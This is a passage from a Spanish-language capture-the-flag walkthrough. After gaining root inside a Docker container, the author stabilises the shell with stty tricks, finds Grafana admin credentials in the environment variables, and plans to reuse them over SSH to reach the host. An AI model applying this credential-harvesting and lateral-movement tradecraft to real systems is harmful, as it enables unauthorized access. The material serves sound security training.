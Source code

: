 Con esto ya veremos que seremos `root` directamente, ya que el software lo esta ejecutando como `root`, vamos a sanitizar la shell un poco.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Pero si vemos el `hostname` veremos que estamos en un `docker`:

```
7ce659d667d7
```

Por lo que vamos a realizar un movimiento lateral, para obtener acceso al servidor real y no al propio `docker` ya que no estariamos realmente en el servidor, si no, en un espacio controlado aislado del host.

## Escalate user enzo

Si revisamos las variables de entorno.

```shell
env
```

Info:

```
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```

Vamos a ver esas dos lineas interesantes, por lo que vamos a probar dichas credenciales por `SSH`.

### SSH

```shell
ssh enzo@<IP>
```

Metemos como contraseña `RioTecRANDEntANT!`...
